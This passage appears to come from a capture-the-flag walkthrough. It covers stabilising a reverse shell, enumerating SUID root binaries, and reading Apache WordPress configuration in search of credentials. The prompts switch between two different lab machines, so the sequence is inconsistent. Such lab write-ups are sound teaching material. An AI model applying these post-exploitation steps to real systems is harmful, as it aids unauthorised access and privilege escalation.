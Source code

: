 - ```-script /dev/null -c bash``` : change the value of the TTY.
- ```-Ctrl + z``` : end  the session of our reverse shell (for a while).
- ```-stty raw -echo;fg```: from our machine we have to change it.
- ```-export TERM=xterm```: change the value of the XTERM.
- ```-stty size```: now you have to verify your rows and columns from your personal desktop. in order to replace them in your reverse shell.
- ```-stty size```: verify you rows and columns.
- ```-stty rows {} columns {}```: change your rows and columns.

Let's find SUID permissions.

```bash
cerberus@symfonos3:/$ find \-perm -4000 -user root 2>dev/null
./usr/sbin/exim4
./usr/bin/newgrp
./usr/bin/chsh
./usr/bin/pkexec
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/passwd
./usr/lib/eject/dmcrypt-get-device
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./bin/umount
./bin/mount
./bin/ping
./bin/su
```
seems that we can not take root from here, but how we have wordpress we can use find possible passwords in /var/www/html.

```
www-data@Aragog:/var/www/html$ ls
harry_potter_1.jpg  index.html
```
seems that we can not take root from here, another potential way is to find in apache directory.

```
www-data@Aragog:/var$ cat /etc/apache2/sites-enabled/wordpress.conf 
Alias /blog /usr/share/wordpress
<Directory /usr/share/wordpress>
    Options FollowSymLinks
    AllowOverride Limit Options FileInfo
    DirectoryIndex index.php
    Order allow,deny
    Allow from all
</Directory>
<Directory /usr/share/wordpress/wp-content>
    Options FollowSymLinks
    Order allow,deny
    Allow from all
</Directory>
```
